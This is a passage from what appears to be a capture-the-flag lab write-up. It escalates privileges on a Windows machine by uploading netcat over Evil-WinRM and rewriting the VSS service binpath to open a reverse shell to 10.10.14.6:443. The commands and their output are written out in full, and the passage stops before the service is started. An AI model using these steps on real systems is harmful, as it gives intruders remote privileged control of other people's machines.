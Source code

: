 ### Malicious Service

#### Reverse Shell

This user can modify, start, and stop services, so I’ll abuse this by having it run `nc64.exe` to give a reverse shell.

I’ll upload `nc64.exe` to Return:

```
*Evil-WinRM* PS C:\programdata> upload /opt/netcat/nc64.exe
Info: Uploading /opt/netcat/nc64.exe to C:\programdata\nc64.exe
                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!

```

Cube0x0 has a [nice post](https://cube0x0.github.io/Pocing-Beyond-DA/) that includes many privesc techniques, including this one.

Typically, I would want to get a list of services that this account can modify, but it seems this user doesn’t have access to the Service Control Manager:

```
*Evil-WinRM* PS C:\programdata> sc.exe query
[SC] OpenSCManager FAILED 5:

Access is denied.
*Evil-WinRM* PS C:\programdata> $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
Cannot open Service Control Manager on computer '.'. This operation might require other privileges.
At line:1 char:12                                                                                        
+ $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where  ...                              
+            ~~~~~~~~~~~                                                                                 
    + CategoryInfo          : NotSpecified: (:) [Get-Service], InvalidOperationException
    + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.PowerShell.Commands.GetServiceCommand

```

Going in a bit blind, I’ll try the one that Cube0x0 shows in the post:

```
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
[SC] ChangeServiceConfig SUCCESS

```

It works! I’ll try to stop the service, but it’s not started. Then I’ll start it:
